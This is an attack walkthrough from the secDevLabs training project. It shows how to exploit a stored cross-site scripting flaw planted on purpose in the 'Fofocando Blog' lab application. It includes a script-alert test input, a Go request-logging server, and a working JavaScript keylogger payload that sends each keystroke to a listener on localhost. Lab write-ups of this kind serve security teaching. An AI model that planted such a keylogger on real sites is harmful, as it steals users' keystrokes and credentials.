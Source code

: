 # Attack Narrative - Fofocando Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Fofocando Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/fofocando) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function(e) {
      e = e || window.event;
      k+=e.key;
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   <img src="attack-7.png" align="center"/>



When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.


<img src="attack-8.png" align="center"/>

<img src="attack-9.png" align="center"/>
